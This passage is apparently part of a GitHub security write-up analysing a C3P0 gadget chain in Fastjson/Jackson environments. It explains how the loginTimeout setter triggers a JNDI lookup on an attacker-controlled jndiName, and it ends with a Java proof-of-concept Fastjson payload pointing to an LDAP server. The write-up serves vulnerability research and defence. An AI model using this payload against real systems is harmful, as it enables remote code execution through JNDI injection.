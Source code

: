 <div align=center><img src="./images/8.png"></div>

<div align=center><img src="./images/9.png"></div>

Secondly, the `JndiRefConnectionPoolDataSource` class has the `LoginTimeout` property and its `setter` method,
Its `setter` method will call the `setLoginTimeout` method of the internal `WrapperConnectionPoolDataSource` object. After tracing, you will find that you are coming to `JndiRefForwardingDataSource#setLoginTimeout`.

<div align=center><img src="./images/10.png"></div>

<div align=center><img src="./images/11.png"></div>

<div align=center><img src="./images/12.png"></div>

Follow up `JndiRefForwardingDataSource#inner`, which will call `JndiRefForwardingDataSource#dereference`, and follow up again
In this method, a lookup query will be performed based on the `JndiRefForwardingDataSource#jndiName` property, and the `jndiName` property can be controlled by the `JndiRefConnectionPoolDataSource#setter` method as above.

<div align=center><img src="./images/13.png"></div>

<div align=center><img src="./images/14.png"></div>

Therefore, in the environment of `Fastjson`, `Jackson` and other environments, the `jndiRefConnectionPoolDataSource` class is called the `jndiname` and `logintimeout` properties of the `jndiRefConnectionPoolDataSource` class is called, and the malicious RMI` server address is passed to the `jndiname` server address, and then the `logintimeout#setter` method is called to make the victim machine go to the malicious address in `jndiname` set as set by `lookup`, causing `JNDI` injection.

### POC

```java
package org.h3rmesk1t.C3P0;

import com.alibaba.fastjson.JSON;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 3:34 pm
 */
public class C3P0JNDI {

    public static void main(String[] args) throws Exception {

        String poc = "{\"@type\": \"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",\n"+"\"jndiName\": \"ldap://127.0.0.1:1389/ciedhl\",\n"+"\"loginTimeout\": 0}";
        JSON.parseObject(poc);
    }

}
```
